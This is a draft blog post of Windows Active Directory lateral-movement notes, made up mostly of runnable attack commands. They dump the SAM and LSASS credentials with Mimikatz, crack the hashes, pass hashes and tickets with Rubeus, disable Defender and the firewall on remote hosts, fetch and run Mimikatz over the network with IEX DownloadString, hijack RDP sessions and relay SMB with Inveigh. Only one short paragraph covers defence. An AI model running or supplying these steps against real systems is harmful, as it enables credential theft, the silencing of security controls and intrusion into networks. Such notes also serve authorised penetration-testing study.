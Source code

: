 ```yaml
---
title: Windows AD Lateral Movement
published: 2025-02-11
description: "Move Laterly in windows AD Enivronement"
image: "./img/img.jpg"
tags: [Notes ,AD, windows]
category: 'Notes'
draft: true
---
```


# Before u start
u must have local priv in the machine u own

# How Kerberos Work
![kerberos](image.png)

# Dumping SAM and SYSTEM
```bash
C:\Windows\System32\config
reg save HKLM\sam sam
reg save HKLM\system system

samdump2 SYSTEM SAM > hashes.txt

# Crack the passwords
hashcat -m 1000 -a 3 hashes.txt rockyou.txt
```

# SAM & LSA with MimiKatz
```bash
powershell -ep bypass
import-module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose -Domain pentesting
```

Download Mimikatz:
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1

```bash
powershell -ep bypass
import-module .\Invoke-Mimikatz
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'
```

# PassTheHash with MimiKatz

A Pass-the-Hash (PtH) attack is a technique whereby an attacker captures a password hash (as opposed to the password characters) and then simply passes it through for authentication and potentially lateral access to other networked systems. The threat actor doesn’t need to decrypt the hash to obtain a plain text password. PtH attacks exploit the authentication protocol, as the passwords hash remains static for every session until the password is rotated. Attackers commonly obtain hashes by scraping a system’s active memory and other techniques.

```bash
Import-Module .\Invoke-Mimikatz 
Invoke-Mimikatz -Command '"sekurlsa::pth /user:student5 /domain:... /ntlm:... /run:powershell.exe"'

Import-Module .\Powerview.ps1
Get-DomainComputer
```

## see if we have access to a server
```bash
Invoke-Command -ComputerName ad -ScriptBlock{whoami; whoami /groups; hostname}
Invoke-Command -ComputerName web -ScriptBlock{whoami; whoami /groups; hostname}
```

## creating a session and hosting on a variable
```bash
$sess = New-PSsession -ComputerName web 
```

## Disable AV and Firewall
```bash
Invoke-Command -ScriptBlock{Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-Command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -ScriptBlock{netsh advfirewall set allprofiles state off} -Session $sess
```

## Entering Created Session
```bash
Enter-PSsession $sess
IEX (New-Object Net.webClient).DownloadString('link'); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```

# Passing The Ticket

```bash
powershell -ep bypass
import-module .\invoke-mimikatz.ps1
invoke-mimikatz -Command '"Mimikatz::debug" "sekurlsa::tickets /export" "exit"'
invoke-mimikatz -Command '"Mimikatz::debug" "kerberos::ptt TicketName" "exit"'
klist # to see the ticket
dir \\web\c$
Invoke-Command -ComputerName web -ScriptBlock{whoami; whoami /groups; hostname}
Enter-PSSession -ComputerName web
# check applocker
```

# Pass the Ticket with Rubeus

```bash
.\Rubeus.exe klist
.\Rubeus.exe dump
.\Rubeus.exe ptt /ticket:doIFSjCCBUagAwIBBaEDAgEWooIEQzCCBD9hg<SNIP>
```

## You can Also, Pass the hash
```bash
.\Rubeus.exe asktgt /user:student5 /domain:pentesting /rc4:602f5c34346bc946f9ac2c0922cd9ef6
```

## Triage All Current Tickets (If Elevated List all Users)
```bash
.\Rubeus.exe triage
s
```
## List all Current Tickets in Details (If Elevated List all Users)
```bash
\Rubeus.exe klist

runas /user:jenkinsadmin /savecred "<ProgramName> <PathToProgramFile>"
```

## resource on the types of Logon Types:

https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material

- Local Login: Physically Logging in at Your Workstation

- `runas`: Perhaps you are a Low Level Helpdesk who uses /runas to spawn a CMD with DA Account, this will result in a TGT for the DA account be cached in LSSAS

- `runas /netonly`: TGT will appear after running a network command (\\IP\SYSVOL) or something

- `PsExec \\server -u user -p pwd cmd` - PSExec leaves a TGT providing explicit credentials were defined

Remote Desktop (RDP)
--------------------

## Mitigation / Defending against PTT
It goes without saying that defending against PTT is very tricky as you are simply using normal functions of Kerberos in a malicious way - All you are really doing is using Kerberos tickets as they would be used, TGT to request service TGS Ticket, and accessing services with TGS.

However as tickets are stored in LSASS I recommend you do not log into end-users stations with privileged accounts i/e do not log into a HR User with your Domain Account with a interactive session…

It is also advised to ensure that Kerberos tickets are set to expire within 10 hours.

# Session Hijack
## Elevate permission to SYSTEM
```bash
PsExec.exe -s \\localhost cmd
whoami
```

## Get Conneted user
```bash
query user
```

## Create service which will hijack user's session:
```bash
sc create sesshijack binpath= "cmd.exe /k tscon ID /dest:rdp-tcp#UrSession"
```

## start the service
```bash
net start sesshijack
```

# SMB Relay

## Download Inveigh here:
https://github.com/Kevin-Robertson/InveighZero

## Run Inveigh.exe as Admin
Inveigh.exe

## Send password offline for cracking
hashcat -m 5600 hadams.txt rockyou.txt
